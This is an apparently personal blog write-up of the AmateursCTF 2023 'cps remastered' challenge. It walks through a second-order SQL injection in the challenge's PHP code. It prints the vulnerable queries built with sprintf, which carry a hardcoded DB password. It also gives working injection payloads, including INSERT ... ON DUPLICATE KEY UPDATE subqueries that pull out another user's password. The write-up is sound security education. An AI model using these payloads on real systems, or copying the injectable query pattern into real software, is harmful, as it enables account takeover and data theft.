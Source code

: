 ```yaml
---
layout: post
title: AmateursCTF 2023
---
```


# cps remastered
![screenshot of challenge description]({{ site.baseurl }}/images/amateursctf/cps.png)

The description is already hinting at SQL injection so we know what we're getting into here

It didnt take too long to spot the SQLi in register.php
```php
<?php
    $message = "";
    mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
    if (isset($_POST["username"]) && isset($_POST["password"])) {
        try{
            $mysqli = new mysqli("p:db", "app", "ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5", "cps");
            $result = $mysqli->query(sprintf("INSERT INTO users (username, password) VALUES ('%s', '%s')", $_POST["username"], $_POST["password"]));
            if ($result) {
                $token = bin2hex(random_bytes(16));
                $add_token = $mysqli->query(sprintf("INSERT INTO tokens (token, username) VALUES ('%s', '%s')", $token, $_POST["username"]));
                if ($add_token) {
                    setcookie("token", $token);
                    $message = "<p>Successfully created account. You are now logged in</p>";
                }
            } else {
                $message = "<p>Something went wrong. Username " + $_POST["username"] + " (might) have been taken already</p>";
            }
        } catch (Exception $e) {
            if (str_starts_with($e, "mysqli_sql_exception: Duplicate entry '") and str_contains($e, "' for key 'PRIMARY'")) {
                $message = sprintf("<p>Something went wrong. Username starting with %s has been taken already</p>", substr(explode("' for key", substr($e, 39))[0], 0, 5));
            }
        }

    }
?>
```

I thought we could update password field using the insert query however the permissions for the SQL user only allow us to update the best_cps column.


```sql
CREATE USER 'app' @'%' IDENTIFIED BY 'ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5';
GRANT SELECT ON cps.* TO 'app' @'%';
GRANT INSERT ON cps.* TO 'app' @'%';
GRANT UPDATE (best_cps) ON cps.users TO 'app' @'%';
FLUSH PRIVILEGES;
```

So instead let's look at this other SQLi in login.php

```php
<?php
    $message = "";
    mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
    if (isset($_POST["username"]) && isset($_POST["password"])) {
        $mysqli = new mysqli("p:db", "app", "ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5", "cps");
        $stmt = $mysqli->prepare("SELECT username, password FROM users WHERE username = ? AND password = ?");
        $stmt->bind_param("ss", $_POST["username"], $_POST["password"]);
        $stmt->execute();
        $result = $stmt->get_result();
        $row = $result->fetch_assoc();
        if ($row) {
            $token = bin2hex(random_bytes(16));
            $add_token = $mysqli->query(sprintf("INSERT INTO tokens (token, username) VALUES ('%s', '%s')", $token, $_POST["username"]));
            if ($add_token) {
                setcookie("token", $token);
                echo "<p>You are now logged in</p>";
            }
        } else {
            echo "<p>Something went wrong.</p>";
        }

    }
?>
```

On first glance it might seem like we can't exploit the SQLi in the INSERT query however if we register an account with our payload as it's username we can reach the vulnerable query.

So register a user with the username `admin\');-- -` - we need to escape the quote as register.php itself is injectable.

Afterwards log in as the user we just created and we get the flag on the index (flag was password of admin user).

What our injection does here is make the token we have the token for the admin user instead of the user we created.

Flag: `amateursCTF{h0w_f@st_can_you_cl1ck?}`

![screen shot of flag on cps]({{ site.baseurl }}/images/amateursctf/cpsflagged.png)

## Other notes from cps remastered
The intended solution was to extract the flag bit by bit using boolean based blind.

If we did have UPDATE permissions for password column we could extract data through the password field in our INSERT query like this:

Username: myuser

Password: `xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=@@version-- -`

Query: 
```sql
INSERT INTO users (username, password) VALUES ('myuser', 'xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=@@version-- -')
```

While exploiting this you may get an error like:
`Error in query (1093): Table ‘users’ is specified twice, both as a target for ‘INSERT’ and as a separate source for data`

You can work around this issue using subqueries:
```sql
xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=(SELECT t.password FROM (SELECT * FROM users t WHERE t.username='admin') as t)-- -
```

